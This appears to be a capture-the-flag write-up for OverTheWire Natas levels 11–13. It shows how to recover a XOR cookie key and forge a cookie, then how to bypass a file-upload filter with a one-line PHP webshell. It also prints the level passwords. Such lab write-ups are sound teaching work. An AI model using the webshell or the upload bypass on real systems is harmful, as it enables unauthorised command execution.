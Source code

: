 ```yaml
---
title: OverTheWire - Natas (11-20)
date: 2024-01-09
categories: [OverTheWire, Natas]
tags: [overthewire, natas, web-security]
img_path: /assets/overthewire/natas
published: true
image:
    path: natas.jpg
---
```


---

<center> <a href="https://cspanias.github.io/posts/OverTheWire-Natas-(0-10)">[Level 0-10]</a> </center>

---

## [Level 10 &rarr; 11](https://overthewire.org/wargames/natas/natas11.html)

> Password: 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

![](natas11_home.png){: .normal width="80%"}

This level mentions that the "_Cookies are protected with **XOR encryption**_" and gives us the ability to customize the background colour. The source code involves five functions:

> [XOR Encryption Algorithm](https://www.101computing.net/xor-encryption-algorithm/)

1. The following code line defines the variable `defaultdata` which is an array of what we are basically see in the homepage, that is, while background and the inability to see the password:

    ```php
    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
    ```

2. The `xor_encrypt` method, as the name suggests, XOR encrypts an input. The key is _censored_, so finding this will be our main goal. What it actually does is declaring a predefined key, assigning the input to the `text` variable, and store the result of the XOR bitwise operation (`text ^ key`) in the `outText` variable:

    > [PHP bitwise operators](https://www.geeksforgeeks.org/php-bitwise-operators/).

    ```php
    function xor_encrypt($in) {
        $key = '<censored>';
        $text = $in;
        $outText = '';

        // Iterate through each character
        for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
        }

        return $outText;
    }
    ```

3. The `loadData` method takes the **cookie value**, decodes it, and then uses it to set web page values, such as the background color and the visibility of the password. If there is a `data` array from the browser cookie, its value is **base64** decoded, then **XOR encrypted**, and then **JSON** decoded. Then the `bgcocol` is read out of the array and checked against a hex color regex. If the `showpassword` key exists, it is also copied over to the `mydata` value:

    > **XOR encryption** is the same with **XOR decryption** since XOR is reversible with the same mathematical function.

    ```php
    function loadData($def) {
        global $_COOKIE;
        $mydata = $def;
        if(array_key_exists("data", $_COOKIE)) {
        $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
        if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
            if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
            $mydata['showpassword'] = $tempdata['showpassword'];
            $mydata['bgcolor'] = $tempdata['bgcolor'];
            }
        }
        }
        return $mydata;
    }
    ```

4. The `saveData` function base64 encodes, XOR encrypts and JSON encodes the data array and saves it as a cookie in the user's browser:

    ```php
    function saveData($d) {
        setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
    }
    ```

5. The below code lines request from the user to input the `bgcolor` value:

    ```php
    if(array_key_exists("bgcolor",$_REQUEST)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
            $data['bgcolor'] = $_REQUEST['bgcolor'];
        }
    }
    ```

6. The last function, `saveData` is called with the default values loaded in:

    ```php
    $data = loadData($defaultdata);
    saveData($data);
    ```

We can first find our session's cookie value via the Inspector tool, which is `MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY%3D`:

![](natas11_sessionCookie.png)

If we visit [CyberChef](https://gchq.github.io/CyberChef/) and URL decode our cookie we get the following:

![](natas11_urlDecode.png)

From breaking down the function, we know the the cookie value includes `showpassword=no` and our goal is to change it to `showpassword=yes`. Our cookie was generated by `setcookie("data", base64_encode(xor_encrypt(json_encode($d))));`. The problem is that we don't do the key for performing the XOR encryption!

We can use a [PHP compiler](https://www.w3schools.com/php/phptryit.asp?filename=tryphp_compiler&ref=learnhacking.io) and copy paste some of the functions in order to make our own cookie:

![](natas11_phpCompiler.png)

We have the cookie value of `eyJzaG93cGFzc3dvcmQiOiJubyIsImJnY29sb3IiOiIjZmZmZmZmIn0=`, while the XOR encoded cookie is `MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY=`. 

The former is generated with the same exact values as the latter: ` showpassword: no, bgColor: #ffffff`. Because of the [associative property of XOR](https://accu.org/journals/overload/20/109/lewin_1915/?ref=learnhacking.io), it does not matter what order we do XOR in, we should get the same answer:
1. plaintext XOR key = ciphertext
2. ciphertext XOR key = plaintext
3. **ciphertext XOR plaintext = key**

We have both the ciphertext (`MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY=`) and then plaintext (`eyJzaG93cGFzc3dvcmQiOiJubyIsImJnY29sb3IiOiIjZmZmZmZmIn0=`), so by performing a XOR operation between them we can get the key, and then use it to create a new cookie value and encrypt it:

![](natas11_xorDecoding.png)

This gives us the value `KNHL` as the XOR key. We can confirm this as follows:

![](natas11_xorDecoding1.png)

Now, we can make a new cookie with the JSON object `{"showpassword":"yes","bgcolor":"#ffffff"}`, XOR encrypt it, and then base64 encode it:

![](natas11_cookieFinal.png)

We can finally change our session cookie and get the password for the next level:

![](natas11_pass.png)

## [Level 11 &rarr; 12](https://overthewire.org/wargames/natas/natas12.html)

> Password: YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

![](natas12_home.png){: .normal width="80%"}

This time the web server has an option for uploading an image. This level is focused on [**file upload vulnerabilities**](https://portswigger.net/web-security/file-upload) and how to bypass an extension change. Our goal is to upload a webshell from which we can execute a command to read the next level's password. Let's start by creating the webshell:

```bash
# create the websehll
$ nano webshell.php
# give execute permissions to the file
$ sudo chmod +x webshell.php
# display the file's contents
$ cat webshell.php
<?php echo system($_GET['command']); ?>
# confirm permissions
$ ls -l webshell.php
-rwxr-xr-x 1 kali kali 40 Jan 17 21:26 webshell.php
```

Let's try to upload it:

![](natas12_webshell_upload.png){: .normal}

Our `webshell.php` was renamed to `jsflwp41if.jpg`! We don't care much about the first part, but we need to find a way to keep the `.php` extension, so we can execute it. We can intercept the `POST` request when uploading the file to see what it looks like:

![](natas12_burp_repeater1.png)

Since the extension change happens on our `POST` request, we can simply manually change it back to `.php` and then send the request again:

![](natas12_burp_repeater2.png)

![](natas12_webshell_upload_php.png){: .normal}

That seemed to have worked! Upon clicking the link, we get some warnings. This is because our webshell expects a `command` parameter and it is not there yet:

![](natas12_webshell_error.png)

We can now test our webshell by passing any command, such as `id`, and see if we get back any output:

![](natas12_id.png)

Since it worked fine, we can now pass a command for reading the next level's password:

![](natas12_pass.png)

## [Level 12 &rarr; 13](https://overthewire.org/wargames/natas/natas13.html)

> Password: lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

<!--
---

<center> <a href="https://cspanias.github.io/posts/OverTheWire-Natas-(21-34)/">[Level 21-34]</a> </center>

---
-->